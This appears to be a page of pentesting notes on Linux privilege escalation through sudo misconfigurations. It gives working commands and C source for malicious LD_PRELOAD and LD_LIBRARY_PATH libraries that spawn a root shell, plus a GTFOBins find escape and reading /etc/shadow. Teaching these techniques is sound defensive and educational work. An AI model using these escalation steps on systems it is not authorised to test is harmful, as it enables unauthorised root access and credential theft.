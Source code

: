 ```yaml
---
description: >-
  Commands you are allowed to run as root, which may allow you to escape from
  the command into a root shell
---
```


# Sudo

## Finding sudo commands

Simply using this command you get a list of command you can execute as other users.&#x20;

```bash
sudo -l
```

If you get any error message like these, it means you probably cannot use this technique for this user:

> Sorry, user \<username> may not run sudo on \<machine>.

> \<username> is not in the sudoers file. This incident will be reported.

In the best case scenario, you can run any command (even `sudo /bin/bash`) as root (without a password):

```bash
Matching Defaults entries for <username> on <machine>:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
    
User <username> may run the following commands on <machine>:
    (ALL) NOPASSWD: ALL
```

Another example is if you can only execute a certain program, or the `NOPASSWD` tag is not set meaning you do need the users password.&#x20;

```bash
Matching Defaults entries for <username> on <machine>:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User <username> may run the following commands on <machine>:
    (ALL : ALL) /usr/bin/find
```

## Exploiting a sudo program

Now that we have a list of programs we are allowed to use, we can see if we can get a shell in any way. To do this you look up the program on [GTFOBins](https://gtfobins.github.io/#+sudo). If it has the `Sudo` tag set, it means you can use it to get some elevated privilege.&#x20;

{% embed url="https://gtfobins.github.io/#+sudo" %}
GTFOBins, a searchable list of exploitable binaries
{% endembed %}

Then just use the command to get a shell. With the `/usr/bin/find` binary it would be this for example:

```bash
sudo find . -exec /bin/sh \; -quit
```

If the binary does not allow you to get a shell instantly, you can try other things like file read to read the `/etc/shadow` file containing password hashes. More information about cracking these shadow hashes in [#cracking-shadow-hashes](../../cryptography/hashing/cracking-hashes.md#cracking-shadow-hashes "mention").&#x20;

### env\_keep

Sometimes the program itself is not exploitable, but there may be a `env_keep` option. This option allows you to inherit environment variables while executing the program, letting it do different things than normal. Two dangerous environment variables here are `LD_PRELOAD` and `LD_LIBRARY_PATH`, because they allow you to overwrite the libc path of the program to another file that you can control. This means you can execute any C library you make before the real sudo program runs.&#x20;

```shell-session
$ sudo -l
Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH

User user may run the following commands on this host:
    (root) NOPASSWD: /usr/sbin/apache2
```

The first `LD_PRELOAD` just specifies the direct path to the library. To compile a malicious library yourself just make some C code to execute a privileged shell, and compile it like a library:

{% code title="preload.c" %}
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
        unsetenv("LD_PRELOAD");
        setresuid(0,0,0);  // Root permissions
        system("/bin/bash -p");  // Start bash shell
}
```
{% endcode %}

```shell-session
$ gcc -fPIC -shared -nostartfiles -o /tmp/preload.so preload.c
```

Now you have the malicious preload.so file that you can include by setting the `LD_PRELOAD` before running the allowed sudo program (make sure to use the full path):

```shell-session
$ sudo LD_PRELOAD=/tmp/preload.so /usr/sbin/apache2
# id
uid=0(root) gid=0(root) groups=0(root)
```

Then for the `LD_LIBRARY_PATH` option there is another similar way. This variable only sets the directory to find the other libraries in, so we first need to know what libraries are loaded to then overwrite them. Do this using `ldd`:

```shell-session
$ ldd /usr/sbin/apache2
        linux-vdso.so.1 =>  (0x00007fff8f5ff000)
        libpcre.so.3 => /lib/x86_64-linux-gnu/libpcre.so.3 (0x00007f52d4527000)
        libaprutil-1.so.0 => /usr/lib/libaprutil-1.so.0 (0x00007f52d4303000)
        libapr-1.so.0 => /usr/lib/libapr-1.so.0 (0x00007f52d40c9000)
        libpthread.so.0 => /lib/libpthread.so.0 (0x00007f52d3ead000)
        libc.so.6 => /lib/libc.so.6 (0x00007f52d3b41000)
        libuuid.so.1 => /lib/libuuid.so.1 (0x00007f52d393c000)
        librt.so.1 => /lib/librt.so.1 (0x00007f52d3734000)
        libcrypt.so.1 => /lib/libcrypt.so.1 (0x00007f52d34fd000)
        libdl.so.2 => /lib/libdl.so.2 (0x00007f52d32f8000)
        libexpat.so.1 => /usr/lib/libexpat.so.1 (0x00007f52d30d0000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f52d49e4000)
```

We can choose any of these filenames to overwrite. Let's take `libcrypt.so.1` for example. We'll again compile some C code to a valid library with the functions that it will expect:

{% code title="library_path.c" %}
```c
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));  // Function that is called

void hijack() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);  // Root permissions
        system("/bin/bash -p");  // // Start bash shell
}
```
{% endcode %}

Then we compile it again to a library, and set the `LD_LIBRARY_PATH` to a directory containing our malicious library:

```shell-session
$ gcc -o /tmp/libcrypt.so.1 -shared -fPIC library_path.c
$ sudo LD_LIBRARY_PATH=/tmp /usr/sbin/apache2
# id
uid=0(root) gid=0(root) groups=0(root)
```
